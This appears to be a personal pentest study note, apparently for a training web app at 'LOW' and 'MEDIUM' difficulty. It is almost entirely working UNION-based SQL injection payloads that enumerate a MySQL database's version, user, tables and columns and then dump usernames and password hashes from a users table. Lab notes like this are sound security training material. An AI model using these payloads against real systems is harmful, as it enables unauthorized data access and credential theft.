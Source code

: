 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

LOW

`'` in the box shows a MySQL error.

Use [[SQL Payload]] to find credentials dumped.

From here, we need to close out all the characters with `'` as seen below:

`%' or '0'='0' `

Find how many columns exist:
```SQL - target
%' or '0'='0' union select null, null-- -
```

Dump database version:
```SQL - target
%' or '0'='0' union select null, version()-- -
```

Dump database user:
```SQL - target
%' or '0'='0' union select null, user()-- -
```

Dump database name:
```SQL - target
%' or '0'='0' union select null, database()-- -
```

Display all tables in information_schema:
```SQL - target
%' or '0'='0' union select null, table_name from information_schema.tables-- -
```

Display all users tables in information_schema:
```SQL - target
%' or '0'='0' union select null, table_name from information_schema.tables where table_name like 'user%'#
```

Display all the columns fields in the information_schema:
```SQL - target
%' or '0'='0' union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #
```

Display column field contents:
```SQL - target
%' or '0'='0' union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
```

MEDIUM
`'` in the box shows a MySQL error.

Use [[SQL Payload]] to find credentials dumped.

Find how many columns exist:
```SQL - target
1 or 0=0 union select null, null-- -
```

Dump database version:
```SQL - target
1 or 0=0 union select null, version()-- -
```

Dump database user:
```SQL - target
1 or 0=0 union select null, user()-- -
```

Dump database name:
```SQL - target
1 or 0=0 union select null, database()-- -
```

Display all tables in information_schema:
```SQL - target
1 or 0=0 union select null, table_name from information_schema.tables-- -
```

Display all users tables in information_schema:
```SQL - target
1 or 0=0 union select null, table_name from information_schema.tables where table_name like 'user%'#
```

Display all the columns fields in the information_schema:
```SQL - target
1 or 0=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #
```

Display column field contents:
```SQL - target
1 or 0=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
